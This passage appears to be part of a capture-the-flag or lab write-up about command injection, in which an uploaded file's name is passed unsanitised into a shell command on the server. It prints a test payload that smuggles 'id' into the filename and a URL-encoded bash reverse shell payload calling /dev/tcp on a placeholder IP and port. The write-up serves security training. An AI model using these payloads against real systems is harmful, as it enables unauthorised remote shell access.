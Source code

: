 <figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption><p>Command Injection</p></figcaption></figure>

The error message hints at command injection, we get:

```xml
<pre>cannot access &#39;file.sh&#39;: No such file or directory</pre>
```

What's happening here is that once we upload a file, the server uses the filename from the GET parameter, in this case `image=file.sh` directly in a shell command without prior sanitization, which means that we may be able to exploit command injection to achieve RCE, let's use a simple test payload:

```bash
file.sh;id
```

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

It says we are root, we may be inside of a docker container, let's get a shell:

```
file.sh;bash+-i+>%26+/dev/tcp/IP/4444+0>%261
```
